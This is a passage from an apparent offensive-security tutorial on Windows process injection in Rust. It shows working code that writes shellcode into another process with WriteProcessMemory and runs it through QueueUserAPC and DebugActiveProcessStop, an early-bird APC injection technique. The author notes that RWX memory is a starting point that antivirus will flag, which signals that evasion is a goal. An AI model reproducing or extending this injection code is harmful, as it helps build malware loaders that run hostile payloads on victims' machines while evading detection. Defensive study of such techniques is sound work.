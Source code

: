 In this call we are passing the `hProcess`, which is our process handle, the size of our payload, the allocation type and the protection flags. This last one is of particular interest, since it sets the page permissions. For now we will set it up as `PAGE_EXECUTE_READWRITE`, which will create a page with `RWX` flags. This is not particulary stealthy and will be flagged by many AV solutions as malicious, but it serves as a starting point for us.

Next in the code we have a snippet that will write the payload in the allocation we have just designated.

```rust
let result = WriteProcessMemory(
    h_process as *mut _,
    *p_payload_address as *mut _,
    p_shellcode as *const _,
    s_size_shellcode,
    null_mut(),
);
```

As we can see, this call is quite straight forward, passing all the pointers needed and the sizes.


### Execute the payload

Last but not least, I present below the function that will execute our payload:

```rust
pub fn execute_payload(
    p_payload_address: *mut *mut u8,
    h_thread : *mut HANDLE,
    dw_process_id : DWORD
    ) {
    
    let func : PAPCFUNC = unsafe{
        Some(
            std::mem::transmute(
                unsafe {
                    *p_payload_address
                }
            )
        )
    };

    let _ = unsafe {
        QueueUserAPC(
            func,
            *h_thread as *mut winapi::ctypes::c_void,
            0
        ) 
    };

    let _ = unsafe{
        DebugActiveProcessStop(dw_process_id)
    };

}
```

